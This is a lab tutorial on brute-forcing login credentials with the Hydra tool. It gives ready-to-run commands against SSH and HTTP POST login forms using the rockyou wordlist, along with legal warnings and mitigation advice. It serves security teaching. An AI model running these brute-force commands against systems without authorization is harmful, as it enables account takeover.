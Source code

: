 ```yaml
---
title: Password Cracking with Hydra
date: 2024-05-12 08:01:35 +0300
subtitle: Product Design
image: '/images/404.jpg'
---
```

# Lab 4: Password Cracking with Hydra

## **Objective**
Learn how to use **Hydra**, a brute-force password-cracking tool, to test the strength of login credentials. This lab demonstrates the importance of strong password policies and how attackers exploit weak passwords.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with Hydra Installed**:
   - Check if Hydra is installed:
     ```bash
     hydra -h
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install hydra
     ```

2. **Target System**:
   - Use a controlled environment such as a test web server, SSH service, or FTP server where you have permission to test.
   - **Insight**: Unauthorized use of Hydra is illegal and unethical.

3. **Wordlist**:
   - A list of potential passwords for the attack.
   - **Tip**: Kali Linux includes wordlists, such as `/usr/share/wordlists/rockyou.txt`. Ensure it is extracted first:
     ```bash
     gunzip /usr/share/wordlists/rockyou.txt.gz
     ```

---

## **Step 1: Identify Target Service**
1. Determine the service and protocol you want to test (e.g., HTTP, SSH, FTP).
2. Verify the service is running on the target system.
   - Use Nmap to identify open ports and services:
     ```bash
     nmap -sV <target_ip>
     ```

---

## **Step 2: Preparing Hydra**
Hydra requires the following:
- **Target IP or Hostname**: The system you are testing.
- **Protocol**: The service you are targeting (e.g., ssh, ftp, http).
- **Username**: The account to test or a list of usernames.
- **Password List**: A wordlist containing potential passwords.

### Example Setup:
- Target: `192.168.1.100`
- Protocol: `ssh`
- Username: `admin`
- Password List: `/usr/share/wordlists/rockyou.txt`

---

## **Step 3: Basic Hydra Command**
Run a brute-force attack against the SSH service:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
```
- **`-l admin`**: Specifies a single username (`admin`).
- **`-P /usr/share/wordlists/rockyou.txt`**: Points to the password wordlist.
- **`ssh://192.168.1.100`**: Specifies the target protocol and IP address.

---

## **Step 4: Advanced Hydra Options**
1. **Testing Multiple Usernames**:
   - Use a username list instead of a single username:
     ```bash
     hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
     ```

2. **Limiting Connection Attempts**:
   - Reduce the number of simultaneous connections to avoid crashing the target service:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.100
     ```
   - **`-t 4`**: Limits to 4 parallel tasks (default is 16).

3. **Using HTTP POST Forms**:
   - Target login forms by specifying the POST request structure:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form \
     "/login:username=^USER^&password=^PASS^:F=Invalid login"
     ```
   - Replace `/login` with the form's action URL and `F=Invalid login` with the failure message.

4. **Saving Results**:
   - Output results to a file for later review:
     ```bash
     hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -o results.txt
     ```

---

## **Step 5: Analyzing Results**
1. Successful credentials will appear in the terminal output or saved file:
   ```
   [22][ssh] host: 192.168.1.100   login: admin   password: password123
   ```
2. Document any findings and compare against the target’s password policy.

---

## **Step 6: Mitigation Strategies**
1. Enforce strong password policies:
   - Use long, complex passwords.
   - Implement multi-factor authentication (MFA).

2. Limit login attempts:
   - Configure services to block IPs after a set number of failed attempts.

3. Monitor logs:
   - Regularly review login logs for suspicious activity.

4. Use encryption:
   - Ensure services like SSH are configured with strong encryption algorithms.

---

## **Additional Tips and Insights**
1. **Legal Considerations**:
   - Only use Hydra in environments where you have explicit permission to test.
   - **Insight**: Unauthorized testing can lead to legal and ethical violations.

2. **Ethical Hacking**:
   - Use tools like Hydra responsibly to identify and mitigate security risks, not exploit them.

3. **Practice in Controlled Environments**:
   - Set up a lab with vulnerable systems to test and refine your skills safely.

4. **Explore Hydra Modules**:
   - Hydra supports a variety of protocols (e.g., SMB, VNC, Telnet). Experiment to learn their specific options and behaviors.

---

## **Key Takeaways**
1. Hydra is a versatile tool for testing the strength of login credentials.
2. Strong password policies and additional security measures can significantly reduce brute-force attack risks.
3. Ethical use and proper authorization are critical when performing password-cracking activities.
